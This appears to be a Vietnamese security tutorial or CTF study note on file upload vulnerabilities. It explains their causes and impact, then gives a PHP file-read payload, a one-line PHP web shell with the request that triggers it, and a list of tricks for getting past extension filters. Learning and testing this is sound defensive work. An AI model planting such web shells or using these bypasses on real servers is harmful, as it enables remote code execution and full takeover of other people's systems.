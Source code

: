 # Lỗ hổng file upload là gì?
Lỗ hổng file upload xảy ra khi máy chủ web cho phép người dùng file upload hệ thống tệp của mình mà không xác thực đầy đủ các thông tin như tên, loại, nội dung hoặc kích thước. Việc không thực thi đúng các hạn chế này có thể đồng nghĩa với việc ngay cả một chức năng tải hình ảnh cơ bản cũng có thể được sử dụng để tải lên các tệp tùy ý và tiềm ẩn nguy hiểm. Điều này thậm chí có thể bao gồm các tệp tập lệnh phía máy chủ cho phép thực thi mã từ xa.

Trong một số trường hợp, hành động file upload tự nó đã đủ để gây ra thiệt hại. Các cuộc tấn công khác có thể bao gồm một yêu cầu HTTP tiếp theo cho tệp, thường là để kích hoạt việc thực thi tệp bởi máy chủ.
# Tác động của lỗ hổng file upload là gì?
Tác động của lỗ hổng file upload thường phụ thuộc vào hai yếu tố chính:

Trang web không xác thực đúng khía cạnh nào của tệp, có thể là kích thước, loại, nội dung, v.v.

Những hạn chế nào được áp dụng cho tệp sau khi đã tải lên thành công?

Trong trường hợp xấu nhất, loại tệp không được xác thực đúng cách và cấu hình máy chủ cho phép một số loại tệp nhất định (chẳng hạn như `.php` và `.jsp`) được thực thi dưới dạng mã. Trong trường hợp này, kẻ tấn công có thể tải lên một tệp mã phía máy chủ hoạt động như một web shell, trên thực tế cấp cho chúng toàn quyền kiểm soát máy chủ.
# Các trường hợp có thể xảy ra
Trong thực tế, các công ty, tổ chức thường kiểm soát rất tốt lỗ hổng này và tự tin vào khả năng xác thực hệ thống của họ.  
Tuy vậy, khi triển khai 'block' nó thì vẫn có thể tồn tại những trường hợp có thể khiến hệ thống của bạn mắc lỗi này:

- Đơn giản nhất, bạn quên xác thực các loại tệp, nội dung, kích thước,.... của tệp được tải lên
- Bạn tạo blacklist để chặn các loại tệp nguy hiểm nhưng không xác thực những loại extensions lạ (ví dụ: .git, .heheattacker,...)
- Web server của bạn an toàn nhưng <b>không nhất quán</b> khiến attacker có thể sử dụng để <b>'path traversal'</b>
- Hệ thống của bạn bị 'thọt' dẫn đến bị bypass dễ dàng bằng các thủ thuật của attacker
# Playload
Sử dụng php để đọc filesystem:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```
web shell
```
<?php echo system($_GET['cmd']); ?>
```
Kích hoạt shell
```
GET /example/exploit.php?cmd=id HTTP/1.1
```
- [một số shell khác ở đây](https://github.com/HuyPham01/docs/tree/main/CTF/php)

# Bypass extensions
exploit.pHp == .php  
Cung cấp nhiều phần mở rộng. Tùy thuộc vào thuật toán được sử dụng để phân tích tên tệp, tệp sau đây có thể được hiểu là tệp PHP hoặc ảnh JPG:`exploit.php.jpg`  
Thêm ký tự cuối. Một số thành phần sẽ loại bỏ hoặc bỏ qua khoảng trắng, dấu chấm, v.v. ở cuối:`exploit.php.`  
Hãy thử sử dụng mã hóa URL (hoặc mã hóa URL kép) cho dấu chấm, dấu gạch chéo xuôi và dấu gạch chéo ngược. Nếu giá trị không được giải mã khi xác thực phần mở rộng tệp, nhưng sau đó được giải mã ở phía máy chủ, điều này cũng có thể cho phép bạn tải lên các tệp độc hại mà nếu không sẽ bị chặn:`exploit%2Ephp`  
Thêm dấu chấm phẩy hoặc ký tự byte rỗng được mã hóa URL trước phần mở rộng tệp. Nếu xác thực được viết bằng ngôn ngữ cấp cao như PHP hoặc Java, nhưng máy chủ xử lý tệp bằng các hàm cấp thấp hơn trong C/C++, chẳng hạn, điều này có thể gây ra sự khác biệt trong phần được coi là phần cuối của tên tệp: `exploit.asp`;.jpghoặc `exploit.asp%00.jpg`  
Hãy thử sử dụng các ký tự unicode đa byte, có thể được chuyển đổi thành byte rỗng và dấu chấm sau khi chuyển đổi hoặc chuẩn hóa unicode. Các chuỗi như `xC0 x2E`, `xC4 xAE` hoặc `xC0 xAE` có thể được dịch thành `x2E` nếu tên tệp được phân tích cú pháp dưới dạng chuỗi UTF-8, nhưng sau đó được chuyển đổi thành ký tự ASCII trước khi sử dụng trong đường dẫn.  
exploit.p.<b>php</b>hp 
